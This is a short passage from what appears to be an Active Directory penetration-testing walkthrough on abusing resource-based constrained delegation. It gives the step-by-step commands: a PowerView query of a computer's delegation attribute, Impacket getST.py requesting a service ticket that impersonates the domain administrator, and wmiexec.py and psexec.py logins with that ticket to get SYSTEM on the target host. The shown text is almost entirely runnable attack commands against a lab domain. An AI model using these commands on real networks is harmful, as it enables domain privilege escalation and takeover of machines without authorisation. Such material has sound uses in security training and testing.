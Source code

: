 ```bash
Get-DomainComputer WIN-DATA -Properties msds-allowedtoactonbehalfofotheridentity
```

![](./images/37.png#pic_center)

4. Apply for a service ticket

```bash
# Use getST.py to apply for tickets
python3 getST.py hack.local/test3$:Passw0rd -spn cifs/WIN-DATA.hack.local -impersonate administrator -dc-ip 10.10.10.137

# Log in directly, you still need to add the domain name to hosts, otherwise it will not be resolved. The SYSTEM permission is available on psexec
KRB5CCNAME=administrator.ccache python3 wmiexec.py -k hack.local/administrator@WIN-DATA.hack.local -no-pass
KRB5CCNAME=administrator.ccache python3 psexec.py -k hack.local/administrator@WIN-DATA.hack.local -no-pass
```
